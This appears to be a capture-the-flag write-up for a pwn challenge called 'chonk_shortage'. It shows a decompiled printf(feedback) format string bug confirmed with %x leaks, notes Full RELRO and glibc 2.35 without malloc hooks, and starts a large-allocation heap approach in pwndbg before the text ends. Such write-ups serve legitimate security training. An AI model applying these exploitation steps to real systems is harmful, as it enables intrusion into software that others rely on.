 Decompiling the binary in Ghidra would give us the above decompile for the main function of this binary. We can immediately see that there is a format string bug in `printf(feedback)` since user input is passed directly into `printf()`.

```
❯ ./chonk_shortage
█▀▀ █░█ █▀█ █▄░█ █▄▀   █▀ █░█ █▀█ █▀█ ▀█▀ ▄▀█ █▀▀ █▀▀
█▄▄ █▀█ █▄█ █░▀█ █░█   ▄█ █▀█ █▄█ █▀▄ ░█░ █▀█ █▄█ ██▄
--------------------------------------------------------------
CHONK HAS NOT BEEN REDEEMED
--------------------------------------------------------------
1. Redeem CHONK [1/1]
2. Eat CHONK [1/1]
3. Done

Enter choice => 3
Please enter your name: aaa
Tell us how you felt about your chonk: %x.%x.%x
You have submitted:
1.1.7ec5ba37
Thanks, aaa
```

As seen above, we have verified that the format string bug exists. We now need to leverage on this bug to craft a working exploit. However, the binary is compiled with Full RELRO, so its GOT entries are read-only at runtime, thus GOT overwrite is not an option.

```
❯ ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu1) stable release version 2.35.
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 11.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

We should also note that the binary given to us is version 2.35. This is significant because we do not have access to malloc/free/morecore hooks since they have been deprecated.

Keeping this in mind, how do we approach this? Let us consider what happens if we request for a chonk (chunk) size that exceeds the largebin range, for instance 0x210000.

```
pwndbg> r
Starting program: Pwn/Chonk-Shortage/dist/chonk_shortage
█▀▀ █░█ █▀█ █▄░█ █▄▀   █▀ █░█ █▀█ █▀█ ▀█▀ ▄▀█ █▀▀ █▀▀
█▄▄ █▀█ █▄█ █░▀█ █░█   ▄█ █▀█ █▄█ █▀▄ ░█░ █▀█ █▄█ ██▄
--------------------------------------------------------------
CHONK HAS NOT BEEN REDEEMED
--------------------------------------------------------------
1. Redeem CHONK [1/1]
2. Eat CHONK [1/1]
3. Done

Enter choice => 1
How chonky would you like your CHONK? 2162688
█▀▀ █░█ █▀█ █▄░█ █▄▀   █▀ █░█ █▀█ █▀█ ▀█▀ ▄▀█ █▀▀ █▀▀
█▄▄ █▀█ █▄█ █░▀█ █░█   ▄█ █▀█ █▄█ █▀▄ ░█░ █▀█ █▄█ ██▄
--------------------------------------------------------------
CHONK @ 0x7ffff7b82010 [UNCONSUMED]
--------------------------------------------------------------
1. Redeem CHONK [0/1]
2. Eat CHONK [1/1]
```